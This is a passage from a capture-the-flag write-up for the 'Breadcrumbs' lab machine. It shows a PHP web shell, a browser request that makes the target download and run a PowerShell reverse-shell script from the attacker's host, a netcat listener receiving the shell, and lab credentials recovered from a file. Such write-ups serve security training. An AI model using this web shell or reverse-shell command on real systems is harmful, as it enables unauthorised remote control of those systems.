 Code Execution
Lets now try to get reverse shell.

change the payload to get code execution

```php
<?php
echo shell_exec($_REQUEST['edger']);
?>
```

![](/Writeups/breadcrumbs/Pasted image 20210718170002.png)


Now time for reverse shell.

Make a listner on port 9001 and execute powershellTCP reverse shell.

On browser

```bash
http://10.10.10.228/portal/uploads/edger.php?edger=powershell%20IEX(New-Object+Net.WebClient).DownloadString(%27http://10.10.14.76/tcp.ps1%27)
```

On terminal

```bash
nc -nvlp 9001                               
listening on [any] 9001 ...
connect to [10.10.14.76] from (UNKNOWN) [10.10.10.228] 59101
Windows PowerShell running as user www-data on BREADCRUMBS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\www-data\Desktop\xampp\htdocs\portal\uploads>
```

creds for juliette can be found in
`C:\Users\www-ata\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData`

```json

{
	"pizza" : "margherita",
	"size" : "large",	
	"drink" : "water",
	"card" : "VISA",
	"PIN" : "9890",
	"alternate" : {
		"username" : "juliette",
		"password" : "jUli901./())!",
	}
}
```


|user|password|
|---|---|
|juliette|jUli901./())!|
